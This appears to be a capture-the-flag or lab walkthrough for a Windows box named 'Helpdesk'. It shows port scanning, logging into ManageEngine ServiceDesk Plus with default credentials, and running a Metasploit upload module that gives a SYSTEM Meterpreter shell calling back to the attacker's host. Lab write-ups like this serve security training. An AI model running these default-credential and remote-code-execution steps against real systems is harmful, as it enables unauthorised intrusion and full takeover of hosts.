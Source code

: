 # Helpdesk

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.43 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:37 +08
Nmap scan report for 192.168.201.43
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

RDP is available.

### ManageEngine RCE --> SYSTEM

Port 8080 hosts a really vulnerable looking software:

<figure><img src="../../../.gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

Default creds of `administrator:administrator` works in logging us in:

<figure><img src="../../../.gitbook/assets/image (1955).png" alt=""><figcaption></figcaption></figure>

There are loads of vulnerabilities with this software.&#x20;

```
$ searchsploit manageengine servicedesk Plus  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ManageEngine ServiceDesk Plus 7.6 - woID SQL Injection     | jsp/webapps/11793.txt
ManageEngine ServiceDesk Plus 8.0 - Directory Traversal    | jsp/webapps/17437.txt
ManageEngine ServiceDesk Plus 8.0 - Multiple Persistent Cr | jsp/webapps/17713.txt
ManageEngine ServiceDesk Plus 8.0 Build 8013 - Multiple Cr | jsp/webapps/17586.txt
ManageEngine ServiceDesk Plus 8.0.0 Build 8013 - Improper  | multiple/webapps/17572.txt
ManageEngine ServiceDesk Plus 8.1 - Persistent Cross-Site  | windows/webapps/20356.py
ManageEngine ServiceDesk Plus 9.0 - Authentication Bypass  | java/webapps/42037.txt
ManageEngine ServiceDesk Plus 9.0 - SQL Injection          | jsp/webapps/35890.txt
ManageEngine ServiceDesk Plus 9.0 - User Enumeration       | jsp/webapps/35891.txt
ManageEngine ServiceDesk Plus 9.0 < Build 9031 - User Priv | jsp/webapps/35904.txt
ManageEngine ServiceDesk Plus 9.1 build 9110 - Directory T | jsp/webapps/38395.txt
ManageEngine ServiceDesk Plus 9.2 Build 9207 - Unauthorize | java/webapps/40569.txt
ManageEngine ServiceDesk Plus 9.3 - User Enumeration       | java/webapps/46674.txt
Zoho ManageEngine ServiceDesk Plus (SDP) < 10.0 build 1001 | jsp/webapps/46413.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'PurchaseRequest. | java/webapps/46966.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SearchN.do' Cros | java/webapps/46965.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SiteLookup.do' C | java/webapps/46963.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SolutionSearch.d | java/webapps/46964.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - Cross-Site Script | multiple/webapps/46895.txt
Zoho ManageEngine ServiceDesk Plus < 10.5 - Improper Acces | multiple/webapps/46894.txt
Zoho ManageEngine ServiceDesk Plus MSP 9.4 - User Enumerat | java/webapps/50027.py
----------------------------------------------------------- ---------------------------------
```

I was lazy, so I used `msfconsole` to exploit this easily.&#x20;

```
msf6 exploit(multi/http/manageengine_auth_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set PASSWORD administrator
PASSWORD => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set LHOST tun0
LHOST => 192.168.45.191
msf6 exploit(multi/http/manageengine_auth_upload) > set RHOSTS 192.168.201.43
RHOSTS => 192.168.201.43
msf6 exploit(multi/http/manageengine_auth_upload) > exploit
```

This would give us a Meterpreter shell as the SYSTEM user:

<figure><img src="../../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>
